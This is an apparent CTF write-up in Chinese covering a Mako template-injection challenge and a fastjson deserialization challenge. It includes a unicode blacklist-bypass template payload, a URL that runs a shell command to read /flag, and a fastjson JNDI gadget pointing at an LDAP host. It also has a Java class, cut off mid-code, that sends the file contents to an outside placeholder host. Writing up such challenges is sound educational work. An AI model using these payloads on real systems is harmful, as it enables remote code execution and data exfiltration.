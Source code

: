 
### HTML practice

经测试以及黑名单结合判断应该是mako 模板引擎。
读了下语法，可以通过循环语句做到代码执行以及assign。
然后用unicode绕黑名单。

最后差一个传字符串的方法。看了下 Mako Runtime 可以用`context.kwargs.get("name")`来获取到渲染时的可控name参数。然后`context.write`把结果写到output去

```
%for a in context.kwargs.keys():
    %for c in ᵉval(context.kwargs.get(a)):
        %for h in (context.write(c), 2):
            byc_404
        %endfor
    %endfor
% endfor
```

`http://124.71.178.252/view/yCDTjeqStl3NgHcxVIbX5J7s8hkvaP10.html?name=__import__(%27os%27).popen(%27cat%20/flag%27).read()`

### baby gadget v1.0
admin/admin123弱密码进后台
发现下载lib，存在fastjson1.2.48
直接使用{"@type":"org.apache.xbean.propertyeditor.JndiConverter","AsText":"ldap://xxx.xxx.xxx.xxx/Exploit"}
直接正常打ldap，发现命令执行有问题，选择用java带出flag

```java=
import java.io.*;
import java.net.*;
import java.util.*;

public class Exploit{
    public Exploit() throws Exception {
        FileReader fr = new FileReader("/flag");
        BufferedReader br = new BufferedReader(fr);

        String str = br.readLine();
        sendGet("http://xxx.xxx.xxx.xxx:xxx/",str);

    }
    public static String sendGet(String url, String param) {
        String result = "";
        BufferedReader in = null;
        try {
            String urlNameString = url + "?" + param;
            URL realUrl = new URL(urlNameString);

            URLConnection connection = realUrl.openConnection();
            connection.setRequestProperty("accept", "*/*");
            connection.setRequestProperty("connection", "Keep-Alive");
            connection.setRequestProperty("user-agent",
                    "Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1;SV1)");

            connection.connect();

            Map<String, List<String>> map = connection.getHeaderFields();

            for (String key : map.keySet()) {
                System.out.println(key + "--->" + map.get(key));
            }

            in = new BufferedReader(new InputStreamReader(
```